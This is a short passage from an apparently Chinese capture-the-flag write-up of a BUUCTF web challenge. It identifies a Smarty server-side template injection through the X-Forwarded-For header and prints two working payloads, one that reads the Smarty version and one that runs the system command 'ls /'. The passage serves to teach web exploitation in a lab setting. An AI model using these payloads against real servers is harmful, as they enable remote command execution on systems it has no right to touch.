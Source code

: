 确信是`smarty`的`SSTI`了:

<img src="/images/buuctf-web2/image-20221022212811607.png" alt="image-20221022212811607" style="zoom:67%;" />

```
X-Forwarded-For: {$smarty.version}   查看smarty版本
3.1.30
```

```
X-Forwarded-For: {if system("ls /")}{/if} 执行系统命令
```

<img src="/images/buuctf-web2/image-20221022213108197.png" alt="image-20221022213108197" style="zoom:67%;" />
